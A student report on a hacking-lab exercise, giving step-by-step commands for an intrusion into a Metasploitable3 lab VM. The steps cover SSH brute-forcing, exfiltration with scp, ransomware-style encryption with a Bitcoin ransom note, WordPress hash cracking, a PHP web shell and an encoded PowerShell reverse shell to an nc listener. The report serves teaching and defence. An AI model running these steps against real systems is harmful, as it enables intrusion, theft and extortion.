








# Cybersecurity - Report

### Devan Sedmak

## Introduction

My project involves executing several attack steps on a vulnerable machine. The steps are small variations of some lab activities proposed in the _Hacking Lab_ section of the course website. I set up two virtual machines, connected to the same network. The first one is a Kali Linux and it will execute the attack steps. The second one is a Metasploitable3 Windows Server 2008, that will be our target. We log on the Metasploitable3 machine with the user account _vagrant_ (password: _vagrant_), as a normal user would, and we start WampServer. We remain logged on until the end of the simulation.

## Reconnaissance

Firstly, we need to find the IP address and network number of our Kali machine. To do so we open a terminal in Kali Linux and we use the `ifconfig` command. We obtain two network interfaces (_Fig. 1_). Let’s focus on the first one. Then we need to determine which other hosts are connected to this network. We can use `nmap` (_Fig. 1_) with the network number of the interface that we obtained before. We obtain three IP addresses (_Fig. 1_). The first one is the default gateway, because only the TCP port is open. The third one matches our Kali machine's IP address (as in `ifconfig`). Therefore, the second one is the target (IP 10.0.2.4).

 
_Fig. 1_

## Initial Access

Now that we have the IP address of the target machine, we could try connecting to its SSH service by obtaining a client password, which suffices for impersonating that client. To do that we first need to assemble a dictionary, that will be used as a user and password list. Firstly, we download the wordlist obtained from the target’s configuration page content. We use the following command: `cewl -d 0 -w config.txt https://github.com/rapid7/metasploitable3/wiki/Configuration`. Then we create a wordlist _dictionary.txt_ containing these words: _vagrant_, _root_, _administrator_, _Administrator_, _sploit_ (_Fig. 2_). Finally, we take some words from the file _config.txt_ obtained before and we append them in the file _dictionary.txt_ with the command `echo $(shuf -n 10 config.txt) >> dictionary.txt`. Obviously in a real scenario, we don’t know if we would succeed using this dictionary.

Now we use the scanner `use auxiliary/scanner/ssh/ssh_enumusers`, after launching _metasploit_ with the command `msfconsole -q`. Then we use the command `set RHOSTS 10.0.2.4` to set the target and `set user_file dictionary.txt` to set the dictionary that will be used by the enumeration tool. To run the exploit, use `run`. We will obtain a list of valid usernames on the target that match entries in the constructed dictionary (_Fig. 2_). Now we select the username _vagrant_ and we try to obtain the corresponding password by an online guessing attack using the exploit `use auxiliary/scanner/ssh/ssh_login`. We need to use the command `set RHOSTS 10.0.2.4` as before, then `set username vagrant` and finally `set pass_file dictionary.txt` (_Fig. 2_). We then run the exploit with `run`.
Now let's open a connection to the SSH service with the command `ssh vagrant@10.0.2.4`. We insert the obtained password and we now have a SSH session, where we are impersonating the user _vagrant_. By inserting the command `cmd` we get a Command Prompt.

_Fig. 2_

## Privilege Escalation

Now we can search some text files in the target’s file system. Move to the Desktop directory with `cd`. After using the command `dir *.txt`, we can see that there is a file called _password.txt_. If we read it with the command `type` we can then get the password of the Administrator account (_Fig. 3_). We can now perform privilege escalation by using this username and password to connect to the SSH service with the command `ssh Administrator@10.0.2.4`.

_Fig. 3_

## Exfiltration

Once we have a SSH session, where we impersonate an account with high privileges, we can again search for some interesting files. Use the command `cmd` and then move to the Desktop directory with `cd`. Let’s try to search for some PDF documents with the command `dir *.pdf`. We can see (_Fig. 3_) that there is a file called _important.pdf_, that contains useful information for the Administrator. Let’s retrieve a copy of this document to the Kali machine. To do this, we need to exit the SSH session (command `exit`) and then use the command `scp Administrator@10.0.2.4:C:/Users/Administrator/Desktop/important.pdf /home/kali/`. We insert again the obtained password and the file will now be copied to the Kali machine. We can then diffuse the content of this file if the ransom will not be paid by a reasonable deadline.

## Impact

We establish again a SSH session as before impersonating the user Administrator. Then use the command `cmd` and move to the Desktop directory with `cd` (_Fig. 4_). Now let’s encrypt the file _important.pdf_ on the target by using the following command: `7z a -pAtckPwd encrypted.7z important.pdf`. Instead of _AtckPwd_ we should use a password that is at least 10 characters long and not in any dictionary (ex. _k7h9Y?àX5$sP_). This will prevent the defender from easily guessing our selected password. The target will now contain an encrypted file called _encrypted.7z_ (_Fig. 4_), that can be decrypted only using the correct password. The chosen password and the instructions to decrypt the file will be sent by the attacker to the target after the ransom is paid. Finally, it’s important to delete the original file on the target by using the command `del`.
Now just construct a text file containing the address of the Bitcoin wallet, where the money of the ransom can be sent to. We put this file on the Desktop of the target machine with the command `scp /home/kali/BitcoinAddress.txt Administrator@10.0.2.4:C:/Users/Administrator/Desktop/`.

  
_Fig. 4_

## Credential Access

Now let’s try to obtain the credentials of the users of WordPress, a service running on the target's webserver. Firstly, we perform online guessing on the MySQL service with the same dictionary used before for the SSH service. To do so we use the command `msfconsole -q` and then `use auxiliary/scanner/mysql/mysql_login`. Now let’s use `set RHOSTS 10.0.2.4`, `set pass_file dictionary.txt` and `set user_file dictionary.txt` as before. After running the exploit with `run`, we observe that `root` is a valid username and the password is blank (null). We use the obtained username and password to connect to the MySQL service with the command `mysql --user=root --password= --host=10.0.2.4`. We now need to extract the password hashes of the WordPress users. We use the commands `show databases;` and `use wordpress` to access the WordPress database. We are interested in the table that contains the information of the users. To access it we use the commands `show tables;` and `describe wp_users;` (_Fig. 5_).

  
_Fig. 5_

Now let’s retrieve the usernames and password hashes from this table with the command `select concat_ws(':', user_login, user_pass) from wp_users;`. We copy and paste them in the text file _hashes.txt_ (_Fig. 6_).
Now we can perform offline guessing on these WordPress password hashes with _John the Ripper_, using the command `john --format=phpass hashes.txt --wordlist=dictionary.txt`. Here _PHPass_ is the format of the hash for WordPress. We use the same password dictionary as before for simplicity, even if we could directly use a hash dictionary, because the passwords are not salted. Using the command `john --show hashes.txt`, we can visualize the obtained cleartext passwords of the corresponding accounts (_Fig. 6_).

  
_Fig. 6_

## Persistance

We now need to find a method to obtain persistence on the target machine. This will allow us to maintain access to the target even if the passwords of the accounts are changed. To do so, we open a browser on the Kali machine and connect to the target's webserver on port number 8585 by entering `10.0.2.4:8585/wordpress` in the URL bar. The browser will show the home page of the WordPress site hosted on the target’s webserver. Now we click on the WordPress login page. Here we insert the obtained WordPress credentials of the _admin_ user. Let’s click on _Appearance_ and then _Editor_. Now search for _Theme Functions_ under _Themes_ on the right and click on it. Here we insert the PHP code of a simple web shell (_Fig. 7_) and we click on _Update file_. This allows us to have access to a remote Command Prompt just by connecting to the webserver with a broswer. To do this, we insert `10.0.2.4:8585/wordpress/?cmd=command` in the URL bar, replacing _command_ with any command we want to execute. It will be very difficult for the defender to notice that there is a web shell running on his webserver, because its input and output will be hidden as common HTTPS traffic.

  
_Fig. 7_

## Command&Control

With the web shell in place, we can execute arbitrary commands on the target. However, we do not yet have an actual shell session running on the target. Moreover, the output of arbitrary commands is not visualized correctly. So, to overcome these issues and to be even more stealthy, we should execute a reverse shell on the target. The target will perceive this shell session as normal outbound HTTPS traffic.

Firstly, we need to obtain the PowerShell script of a reverse shell from the web (_Fig. 8_). Inside the script, we must insert the Kali machine’s IP and the port number (443). Let’s name this script _ReverseShell.ps1_. Then we must convert this code in Base64. This allows us to treat the script as an URL parameter. But before doing that, we create a text file called _ReverseShell.txt_ with the command `echo -n "powershell.exe -EncodedCommand " > ReverseShell.txt`, where we will append the script code encoded in Base64. To encode the script and then append it we use the command: `tr -d '\n' < ReverseShell.ps1 | iconv -f ASCII -t UTF-16LE | base64 -w 0 >> ReverseShell.txt`. Now we need to write this CMD command in a form that can be included in a URL. To do this, we encode the command using `hURL -U -f  ReverseShell.txt` and we copy the output.

Now, we use the command `nc -nlvp 443` to set up `nc` to listen for incoming connections on port 443 on the Kali Linux machine. Finally, we can enter `10.0.2.4:8585/wordpress/?cmd=` in the URL bar and paste the previously copied encoded CMD command after the ‘=’ sign. The target’s webserver will now act as a client and connect to the Kali server on port 443. We now have a CMD shell session where we can interact with the target machine. Thus, we have established a Command&Control channel over HTTPS.

_Fig. 8_

> **Interesting observation**: We executed all the attack steps without the need for the Administrator (account) to physically log on the target.

## Conclusion

Understanding the attacker's perspective through these simulations helps us to understand what the possible threats are and how to defend against them. Indeed, this project demonstrates why the “boring” defensive strategies such as network monitoring, implementing strong password policies, restricting access to sensitive information and applying multi-factor authentication are so important. Effective implementation of these strategies, following the _Defense in Depth_ principle, would have mitigated most of the cybersecurity threats presented here. SO, it is fundamental to include regular security audits, timely patch management, and deployment of detection sensors in our systems' defensive policies. A proactive and layered approach to cybersecurity is therefore necessary to successfully protect networked systems from evolving cyber threats.

## Bibliography

Bartoli Alberto – Cybersecurity Course, Hacking Lab
https://bartolialberto.github.io/CybersecurityCourse/Hacking%20Lab/Lab_Hacking_Metasploitable/

SSH Username Enumeration - Metasploit, InfoSec Matter
https://www.infosecmatter.com/metasploit-module-library/?mm=auxiliary/scanner/ssh/ssh_enumusers

SSH Login Check Scanner – Metasploit, InfoSec Matter
https://www.infosecmatter.com/metasploit-module-library/?mm=auxiliary/scanner/ssh/ssh_login

MySQL login, InfoSec Matter
https://www.infosecmatter.com/metasploit-module-library/?mm=auxiliary/scanner/mysql/mysql_login

Pwning WordPress Passwords, InfoSec Write-ups
https://infosecwriteups.com/pwning-wordpress-passwords-2caf12216956

ChatGPT
https://chatgpt.com/

Simple WordPress Web Shell Tutorial (Guided Hacking), YouTube
https://www.youtube.com/watch?v=XHShse4z6ds
